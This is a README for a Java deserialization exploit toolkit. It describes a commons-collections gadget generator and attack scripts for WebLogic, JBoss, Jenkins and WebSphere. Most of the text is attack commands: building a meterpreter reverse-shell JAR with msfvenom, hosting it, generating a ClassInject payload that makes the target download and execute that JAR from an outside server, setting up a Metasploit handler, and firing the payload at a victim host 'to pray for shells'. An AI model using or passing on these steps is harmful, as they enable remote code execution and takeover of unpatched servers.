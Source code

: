 Java Untrusted Deserialization Exploits Tools
===

## Originally from github.com/getcode2git/exserial
---

Not much change in code here as it works a charm. However original github is all in Chinese, so for anyone fluent - please visit the original creator :)
Weblogic Versions: 10.3.6, 12.1.2, 12.1.3, 12.2.1
As for the others its probably easily discoverable - just anything running the older versions of commons-collections...

Structure
---

    .
    |____README.md
    |____exserial.jar     CommonsCollections <= 3.2.1 Exploit Gadget
    |____scripts
    | |____jboss.py       JBoss JMXInvokerServlet
    | |____jenkin.py      Jenkins CLI
    | |____weblogic.py    WebLogic
    | |____websphere.py   WebSphere

---

`exserial.jar` Deserialisation Payload Generator：`CommandExec` && `ClassInject`

    $ java -jar exserial.jar
    Java Deserialise Exploit Gadget With (commons-collections <= 3.2.1)
    Usage: java -jar exserial.jar [module type]
        Available module types:
            CommandExec
            ClassInject

### 1. CommandExec

Ability to call command execution：

    $ java -jar exserial.jar CommandExec
    Java Deserialise Exploit Gadget With (commons-collections <= 3.2.1)
    Usage: java -jar exserial.jar CommandExec [platform] [command to execute]
        Available platform types:
            Win
            Linux
            OSX
            

### 2. ClassInject

The `main` method used to cause the target server to dynamically load our specified JAR package and execute the specified class name.

For all you lovely testers `msfvenom` as part of the metasploit package [Metasploit](https://github.com/rapid7/metasploit-framework) with the `java/meterpreter/reverse_tcp` JAR payload：

    $ msfvenom --payload="java/meterpreter/reverse_tcp" LHOST=192.168.130.1 LPORT=4444 -t jar > java_meterpreter_reverse_tcp.jar
    
Inject `java_meterpreter_reverse_tcp.jar` into our main class within `exserial.jar` with metasploit.Payload：

    $ java -jar exserial.jar ClassInject "http://myserver.com/java_meterpreter_reverse_tcp.jar" "metasploit.Payload" > demo3.ser

### 3. Useage

Set that **MSF handler** running ->
` use exploit/multi/handler `
` set PAYLOAD java/meterpreter/reverse_tcp `
` set LHOST x.x.x.x `
` set LPORT 1234 `
` exploit -j `

Create a malicious **Java Meterpreter** ->
`msfvenom -p java/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=1234 -f jar > my_reverse_meterpreter.jar`

Host that bad boy on your **webserver**, make sure that the victim will be able to access this ->
` mv ./my_reverse_meterpreter.jar /var/www/html/`
` service apache2 start` <- Or whatever HTTP Server you prefer :)

Generate your malicious **servlet** ->
` java -jar exserial.jar ClassInject "http://yourwebserver:port/my_reverse_meterpreter.jar" "metasploit.Payload" > exploit.ser`

Fire away and **pray for shells** ->
` python scripts/weblogic.py http://somepoorsod:7001 exploit.ser`

